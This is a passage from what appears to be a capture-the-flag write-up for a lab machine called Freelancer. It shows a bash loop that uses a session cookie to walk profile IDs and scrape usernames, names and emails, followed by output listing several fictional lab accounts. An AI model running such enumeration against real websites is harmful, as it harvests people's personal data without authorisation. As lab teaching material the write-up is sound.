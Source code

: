 > The `h3` inside `div.information-box` contains the username, the `span` inside the same div contains the fullname and the a `div` inside a `li` inside a `ul` with class `information-list-box` contains the user information. The tool `html2text` parses the html and converts it so well to a pretty format.


Now I will loop from 1 to 10100 to extract all the possible usernames and put them into a file `profilesInfo.txt`. It finds users till ID 14 so I stopped it there (I was watching with `tail -f profilesInfo.txt` while it was running):

```bash
❯ for profileId in $(seq 1 10100); do echo -ne "\rProfile $profileId"; (echo -ne "\n\n[+] Profile $profileId\n\n"; curl -s "http://freelancer.htb/accounts/profile/visit/$profileId/" -H "Cookie: sessionid=b0r060kmv3946cnyylp3strymp80ev08; csrftoken=b0r060kmv3946cnyylp3strymp80ev08" | pup 'div.employers-details-information' | pup 'div.information-box h3, div.information-box span, ul.information-list-box li div' | html2text) 2>/dev/null >> profilesInfo.txt;done
```

```bash
❯ cat profilesInfo.txt



[+] Profile 1



[+] Profile 2

**** admin ****
John Halond
Company Name: Freelancer LTD
Address: US East - Boston
Phone NUmber:
Email: johnHalond@freelancer.htb
Joined At: 2020-11-12
Job Position:


[+] Profile 3

**** tomHazard ****
Tom Hazard
Company Name: Freelancer LTD
Address: US West - Los Angeles
Phone NUmber:
Email: tomHazard@freelancer.htb
Joined At: 2020-01-19
Job Position:


[+] Profile 4

**** martin1234 ****
Martin Rose
Company Name: Doodle Grive Ltd
Address: Canada West - Vancouver
Phone NUmber:
Email: martin.rose@hotmail.com
Joined At: 2021-02-01
Job Position:


[+] Profile 5

**** crista.W ****
```